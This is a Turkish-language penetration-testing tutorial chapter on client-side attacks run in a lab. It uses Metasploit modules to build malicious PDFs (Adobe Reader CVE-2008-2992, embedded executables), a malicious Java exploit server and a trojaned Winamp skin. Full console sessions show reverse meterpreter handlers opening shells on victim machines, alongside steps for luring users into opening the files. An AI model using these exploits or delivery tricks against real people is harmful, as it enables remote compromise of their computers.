 ### Client-side Exploitation

#### PDF Sızma
___

Portable Document Format (PDF) yazılımına da sızma yapılabilir. Eğer kullanıcıyı kötü amaçlı PDF dosyamızı güvenlik zaafiyeti olan uygulamada görmesine ikna edebilirsek, o programa sızabiliriz.

Windows sistemlerinde en yaygın kullanınan PDF uygulaması Adobe Reader. Web tarayıcıları gibi, Adobe Reader'in de güvenlik açıkları ile çevrili bir tarihi vardır. Gene web tarayıcılarında olduğu gibi paketli güncelleme yönetimi mevcut olsa bile, genelde güncelleme yapmayı ihmal ettiğimiz program türlerinden.

Bizim Windows XP makinemizde Adobe Reader'in eski 8.1.2 sürümü kurulu, bu sürümünde CVE-2008-2992 sorunu bulunmakta. Bu sorun amaçlı Metasploit modülümüz ise _exploit/windows/fileformat/adobe_utilprintf_. Bu modüle gireceğimiz değerler şu ana kadar gördüklerimizden biraz farklı. Bu kullanıcı taraflı bir saldırı olduğundan _RHOST_ gibi değerlere gerek yok. Modülün yaptığı görev ise kötü amaçlı bir PDF oluşturmak.

```ShellSession
msf > use exploit/windows/fileformat/adobe_utilprintf 
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  ----------- 
    FILENAME   msf.pdf          yes       The file name.

Exploit target:
    Id  Name
    --  ----
    0  Adobe Reader v8.1.2 (Windows XP SP3 English)

msf exploit(adobe_utilprintf) > exploit [*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
```

Gördüğünüz gibi, PDF exploit için gireceğimiz tek değer oluşturulacak zararlı PDF dosyası için isim. Onu da varsayılan değeri _msf.pdf_ olarak bırakabiliriz. Bu örneğimiz için Metasploit'in varsayılan _windows/meterpreter/reverse_tcp_ payload'nı 4444 portunda kullanacağız. __exploit__ çalıştırdığımızda, Metasploit bizim için Windows XP SP3 English sisteminde bulunan güvenlik zaafiyeti Adobe Reader için zararlı PDF dosyası oluşturacaktır. Dosyamız _/root/.msf4/local/msf.pdf dizininde kaydedilecek.

Payload için bir işleyici (handler) ayarlamamız gerekiyor:

```ShellSession
msf exploit(adobe_utilprintf) > cp /root/.msf4/local/msf.pdf /var/www 
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf exploit(adobe_utilprintf) > service apache2 start 
[*] exec service apache2 start

Starting web server: apache2.

msf exploit(adobe_utilprintf) > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9

msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
```

Oluşturduğumuz dosyayı Apache sunucusuna atıyoruz, ve sunucuyu çalıştırıyoruz. Bu dosyayı sonradan anlatacağımız sosyal mühendislik yönteminde de kullanabiliriz, bir kişiye değilde birkaç kişiye göndereceğimizden _multi/handler_ modülünü kullandık. 

ExitOnSession varsayılan değerini false yaparak, oturum bilgisi aldığında dinleyicinin kapanmasını önleyebiliriz. Yani birkaç kullanıcı için, çoklu oturum açmış oluyoruz.

```ShellSession
msf exploit(handler) > show advanced 
Module advanced options:
--snip--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

##### PDF Embedded Executable

PDF saldırıları için diğer bir yöntem ise; PDF içine zararlı çalışan bir script yerleştirmek. Bu amaçlı kullanacağımız Metasploit modülü ise _exploit/windows/fileformat/adobe_pdf_embedded_exe_. Programa direk açılışında sızma yerine, PDF açıldığında bir script için çalıştırabilme yetkisini isteyecek. Kullanıcı buna izin verdiği takdirde, işlemimiz başarıyla sonuçlanır.

![PDF](../resim/ataklar/client/pdf1.png)

Bu modül (1) önceden oluşturduğumuz scripti __EXANAME__ değeri ile tanımlayabilmemizi sağlar; (2) oluşturacağımız pdf dosyası ismini, (3) __INFILE__ değeri ile giriş PDFyi, (4) __LAUNCH MESSAGE__ ile izin isterken göstereceğimiz mesajı belirleriz.

Aşağıdaki gibi lazım olan değerleri girelim. Örneğimiz için Kali Linux'la gelen Metasploit kullanım klavuzunu kullanıyoruz, _/user/share/set/readme/User_Manual.pdf_ da bulunur. Sonrasında oluşturulan dosya, gene _/root/msf4/local/_ dizininde yer alacak.

![PDF](../resim/ataklar/client/pdf2.png)

Zararlı PDF dosyası açıldığında, kullanıcı aşağıdaki gibi bir uyarı alacak. Atağın bu çeşidi kullanıcın _Open_ tıklamasına bağlı. Kullanıcı _Open_ tıkladığı takdirde payload çalışır ve biz oturum bilgisi alırız.

![PDF](../resim/ataklar/client/pdf3.png)

#### Java Sızma
___

Java açıkları kullanıcı taraflı ataklar için yaygın bir alandır. Aslında, bazı uzmanlar Javanın bu açıklarından dolayı onun kaldırılmasını veya web tarayıcılarımızdan devre dışı bırakılmasını önermektedir.

Java saldırılarını güçlü kılan unsur ise, bir exploit çoklu platform için kullanılabilir. Windows, Mac hatda Linux sistemlerinde web tarayıcısı içinde çalışan Java Runtime Environment (JRE) aynı exploit ile sızılabilmekte. Bunlardan birkaçına bakalım:

Bir numara olarak, _exploit/multi/browser/java_jre17_jmxbean_ Metasploit modülünü kullanalım. Metasploit zararlı bir sunucu oluşturur, ve o sayfaya gelen herkese sızar. Java 7 sürümü 11. güncellemeden önceki hepsi etkilenir.

![JAVA](../resim/ataklar/client/java1.png)

Kendi çevremize göre değerleri belirliyoruz. _SRVHOST_ değerini şahsi yerel IP adresimiz; istersek _SRVPORT_'unda değiştirebiliriz; _URIPATH_ değerini hedefimizdeki tarayıcıda kolay yazabilecek bir değer atıyoruz.

Exploit'imiz çoklu platform desteklediğinden ve kod çalışma işlemi JRE içinde gerçekleştiği için, payload değerlerimiz Java tabanlıdır. Olagan şüphelilerin hepsi burda sıralınır inline payloads, staged payloads, bind shells, reverse shells, Meterpreter vb. Biz _java/meterpreter/reverse_http_ payloadını yasal HTTP trafiğini kullanıdığından onu seçiyoruz:

![JAVA](../resim/ataklar/client/java2.png)

Yukardaki değerler artık size tanıdık gelmesi lazım. _LPORT_ varsayılan değeri şimdi 4444 yerine 8080. Dikkat edersek _SRVPORT_ ve _LPORT_ değerlerinin ikisi de aynı olduğundan, en azından birini değiştirmemiz gerekir.

Değerleri atadıktan sonra, exploit sunucusunu başlatalım ve Windows 7 makinemizde o zararlı sayfayı ziyaret edelim. Internet Explorer da Mozilla Firefox ta Java eklentisi açık olduğu sürece bu açığın kurbanı olacaklardır.

Ek olarak PDF de kullanıcı onaylaması ile ilgili örnekte yaptığımız gibi Signed Java Applet _exploit/multi/browser/java_signed_applet_ kullanarak ta aynı mantık ile bir sızma yapılabilir. Mantık aynı. Çıktı olarak aşağıdaki gibi olacaktır:

![JAVA](../resim/ataklar/client/java3.png)

#### Winamp
___ 

Şimdiye kadar kullanıcı taraflı saldırılar aynı yöntem kullanmaktaydı. Biz zararlı bir dosya oluşturup kullanıcıdan güvenlik zaafiyeti olan programdan çalıştırmasını istiyorduk veya kullanıcıdan zararlı bir scripti çalıştırma onayını vermesini istiyorduk. Kullanıcı çalıştırdığında biz Metasploit oturumunu açıyorduk. Şimdi gelelim bir başka yönteme.

Bu örnekte, kullanıcıyı kandırarak Winamp ayar dosyasını nasıl değeştirebileceğine bakacağız. Kullanıcı programı açtığında, hangi şarkı söylerse söylesin zararlı ayar dosyası çalışmış olacaktır. Kullanacağımız Metasploit modülü _exploit/windows/fileformat/winamp_mali_bof_, Winamp 5.55 sürümünde buffer overflow sorununa sızma yapar.

Aşağıda gördüğünüz gibi, bu modüle girebileceğimiz herhangi bir değer yoktur. Bize lazım olan tek şey Windows payload. Bu modül Winamp teması (skin) için zararlı Maki dosyasını oluşturacak. 

![WINAMP](../resim/ataklar/client/winamp1.png)

Uyumlu bir Windows payload seçiyoruz. Zararli Maki dosyası oluşturulduktan sonra, Apache sunucusuna atıyoruz ve payload işlemcisini (handler) kuruyoruz. Şimdi biz bu zararlı dosyayı Winamp ta kullanabilecek duruma getirmemiz lazım. Winamp dosyasında bir tane tema dosyasını kopyalayıp yenisini oluşturalım. _mcvcore.maki_ dosyasını oluşturduğumuz zararlı dosya ile değiştiriyoruz. Temanın görünümü bizim için pek fark etmez, çünkü ne de olsa bizim Metasploite oturum bilgisini aktaracaktır.

Windows 7 sistemimizde, _C:\Program Files\Winamp\Skins_ dizininde bulunan Bento Winamp temasını Kalimize kopyalayalım. İsmini _Bento_ 'dan _Rocketship_ 'e değiştirelim. _Rocketship\scripts\mcvcore.maki_ dosyasını Metasploitte oluşturmuş olduğumuz zararlı dosya ile değiştiriyoruz. Sonra zipleyelim ve sunucuya atalım. 

Windows 7 sistemimize geçelim, we ziplemiş olduğumuz dosyayı indirelim ve Winamp tema dosyasına atalım.

![WINAMP](../resim/ataklar/client/winamp2.png)

Şimdi ise Winamp açalım, __Options > Skins__ gidelim ve __Rocketship__ seçelim. Zararlı temayı seçtiğimizde Winamp kapanmış gözükecektir ve biz Metasploitte oturumu almış olacağız.

![WINAMP](../resim/ataklar/client/winamp3.png)